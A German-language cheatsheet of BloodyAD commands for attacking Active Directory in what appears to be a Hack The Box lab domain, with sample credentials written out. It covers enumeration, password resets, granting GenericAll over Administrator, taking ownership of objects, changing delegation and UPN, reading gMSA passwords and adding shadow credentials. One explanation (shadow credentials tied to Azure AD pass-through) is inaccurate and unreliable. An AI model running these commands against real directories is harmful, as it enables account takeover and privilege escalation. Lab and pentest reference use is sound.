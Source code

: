 
## 🩸 BloodyAD Cheatsheet

# Inhaltsverzeichnis

- [🧩 Retrieve Domain Information](#-retrieve-domain-information)
- [🧩 Retrieve User Information](#-retrieve-user-information)
- [🧩 Get groupMembers](#-get-groupmembers)
- [🧩 Add User To Group](#-add-user-to-group)
- [🧩 Add New User](#-add-new-user)
- [🧩 Get Computers](#-get-computers)
- [🧩 Change Password](#-change-password)
- [🧩 Give User GenericAll Rights](#-give-user-genericall-rights)
- [🧩 Write Owner](#-write-owner)
- [🧩 Enable a Disabled Account](#-enable-a-disabled-account)
- [🧩 Add The TRUSTED_TO_AUTH_FOR_DELEGATION Flag](#-add-the-trusted_to_auth_for_delegation-flag)
- [🧩 ReadGMSAPassword](#-readgmsapassword)
- [🧩 Modify UPN](#-modify-upn)
- [🧩 Shadow Credentials](#-shadow-credentials)


<br>

### 🧩 Retrieve Domain Information

Zeigt grundlegende Informationen zur Active Directory-Domäne wie Domain-Controller, Domänenfunktionsebene und andere Metadaten an.
```zsh
bloodyAD --host $IP -d b2syn.htb -u a.james -p 'Maofron32!' get domain
```

<br>

### 🧩 Retrieve User Information

Fragt Active Directory-Objekt (z. B. einen Benutzer) ab und zeigt alle LDAP-Attribute des Zielobjekts.
```zsh
bloodyAD --host $IP -d b2syn.htb -u a.james -p 'Maofron32!' get object administrator
```

<br>

### 🧩 Get groupMembers

Listet alle Mitglieder der angegebenen AD-Gruppe (z. B. DEVELOPERS) auf und zeigt deren Benutzernamen und Details.
```zsh
bloodyAD --host $IP -d b2syn.htb -u a.james -p 'Maofron32!' get groupMembers DEVELOPERS
```

<br>

### 🧩 Add User To Group

Zeigt alle Active Directory-Objekte an, auf die der Nutzer a.james Schreibrechte hat. Mit --detail werden zusätzlich ausführliche Informationen zu den Berechtigungen ausgegeben.
Fügt den Benutzer a.james zur Gruppe DEVELOPERS im Active Directory hinzu. Dadurch erhält der Nutzer die Rechte und Mitgliedschaften der Zielgruppe.
```zsh
bloodyAD --host $IP -d b2syn.htb -u a.james -p 'Maofron32!' get writable --detail
bloodyAD --host $IP -d b2syn.htb -u a.james -p 'Maofron32!' add groupMember DEVELOPERS a.james
```

<br>

### 🧩 Add New User

Legt einen neuen Benutzer im Active Directory an, um ihn in der Domäne zu registrieren.
```zsh
bloodyAD --host $IP -d b2syn.htb -u a.james -p 'Maofron32!' add user <Benutzername>
```

<br>

### 🧩 Get Computers

Listet alle Computerobjekte innerhalb der Active Directory-Domäne auf.
```zsh
bloodyAD --host $IP -d b2syn.htb -u a.james -p 'Maofron32!' get computers
```
<br>

### 🧩 Change Password

Setzt das Passwort des angegebenen Active Directory-Benutzers ($target_username) auf ein neues Passwort ($new_password). Damit kann der Nutzer das Passwort eines anderen AD-Accounts ändern.
```zsh
bloodyAD --host $IP -d b2syn.htb -u a.james -p 'Maofron32!' set password $target_username $new_password
```

<br>

### 🧩 Give User GenericAll Rights

Gewährt dem Benutzer a.james volle Zugriffsrechte („genericAll“) auf das AD-Objekt „Administrator“. Dadurch kann a.james alle Eigenschaften und Berechtigungen des Administrator-Kontos ändern.
"Füge der Access Control List (ACL) des Administrator-Objekts hinzu, dass a.james volle Rechte bekommt.“
```zsh
bloodyAD --host $IP -d b2syn.htb -u a.james -p 'Maofron32!' add genericAll "CN=Administrator,CN=Users,DC=b2syn,DC=htb" a.james
```

<br>

### 🧩 Write Owner

Setzt den Besitzer des Active Directory-Objekts „DEVELOPERS“ auf den Benutzer a.james. Dadurch erhält a.james volle Kontrolle über dieses Objekt.
```zsh
bloodyAD --host $IP -d b2syn.htb -u a.james -p 'Maofron32!' set owner "CN=DEVELOPERS,DC=b2syn,DC=htb" a.james
```

<br>

### 🧩 Enable a Disabled Account

Entfernt das ACCOUNTDISABLE-Flag im User-Account-Control (UAC) des Benutzers j.calvus, wodurch das Konto wieder aktiviert wird.
```zsh
bloodyAD --host $IP -d b2syn.htb -u a.james -p 'Maofron32!' remove uac "CN=j.calvus,OU=Users,DC=b2syn,DC=htb" -f ACCOUNTDISABLE
```

<br>

### 🧩 Add The TRUSTED_TO_AUTH_FOR_DELEGATION Flag

Fügt dem Benutzerkonto service-account das UAC-Flag TRUSTED_TO_AUTH_FOR_DELEGATION hinzu. Dadurch wird das Konto für die vertrauenswürdige Delegierung autorisiert.
```zsh
bloodyAD --host $IP -d b2syn.htb -u a.james -p 'Maofron32!' add uac "CN=service-account,OU=Services,DC=b2syn,DC=htb" -f TRUSTED_TO_AUTH_FOR_DELEGATION
```

<br>

### 🧩 ReadGMSAPassword

Fragt das Active Directory-Objekt gmsa-web (Managed Service Account) ab und zeigt das Attribut msDS-ManagedPassword mit dem aktuellen verwalteten Passwort an.
```zsh
bloodyAD --host $IP -d b2syn.htb -u a.james -p 'Maofron32!' get object "CN=gmsa-web,CN=Managed Service Accounts,DC=b2syn,DC=htb" --attr msDS-ManagedPassword
```
<br>

### 🧩 Modify UPN
Fragt beim Active Directory-Benutzer joerg das Attribut userPrincipalName ab und zeigt dessen Wert an.
Ändert im Active Directory beim Benutzer joerg das Attribut userPrincipalName auf „joerg2@b2syn.htb“. Damit wird der Anmeldename des Nutzers angepasst.
```zsh
bloodyAD --host $IP -d b2syn.htb -u a.james -p 'Maofron32!' get object "CN=joerg,OU=Users,DC=b2syn,DC=htb" --attr userPrincipalName
bloodyAD --host $IP -d b2syn.htb -u admin -p 'Passw0rd!' set object "CN=joerg,OU=Users,DC=b2syn,DC=htb" userPrincipalName -v "joerg2@b2syn.htb"
```

<br>

### 🧩 Shadow Credentials

Fügt dem AD-Benutzer joerg sogenannte Shadow Credentials hinzu, die alternative Anmeldedaten (z. B. für Azure AD Pass-Through Authentication) ermöglichen.
```zsh
bloodyAD --host $IP -d b2syn.htb -u admin -p 'Passw0rd!' add shadowCredentials "CN=joerg,OU=Users,DC=b2syn,DC=htb"
```


